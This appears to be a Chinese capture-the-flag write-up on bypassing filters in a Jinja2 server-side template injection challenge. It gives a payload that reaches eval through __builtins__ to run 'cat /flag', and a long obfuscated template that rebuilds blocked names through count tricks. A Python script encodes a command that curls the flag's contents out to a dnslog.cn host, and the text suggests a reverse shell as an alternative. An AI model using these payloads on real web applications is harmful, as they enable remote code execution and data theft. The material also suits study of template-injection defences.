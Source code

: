 :::info
**之前的构造：**

- 之前是找到`__builtins__`中的`chr`，之后构造`cat /flag`，`print(open(file))`

现在不能open了，翻到最开始的命令<br />`?name={{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}`

- 最后是eval，eval中的命令在无回显时可以用**curl带出，或者反弹shell，开启监听**
  :::

```python
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=
%}
{%if x.eval(cmd)%}
abc
{%endif%}
```

- 上面这段代码用一个字母`c`的时候表示数字0，2个字母`c`的时候表示数字2
- `chr`是通过ASCII码获取字符，`chr(95)`得到的字符是`_`
- cmd通过下面的代码生成

```python
def aaa(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl `cat /flag`.du9dan.dnslog.cn").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+aaa(str(ord(s[i])))+')%2b'#ord获取ASCII码，str转字符串
  
		else:
			t+='chr('+aaa(str(ord(s[i])))+')'
	return t
if __name__ == '__main__':  
    print(ccchr(s))

```
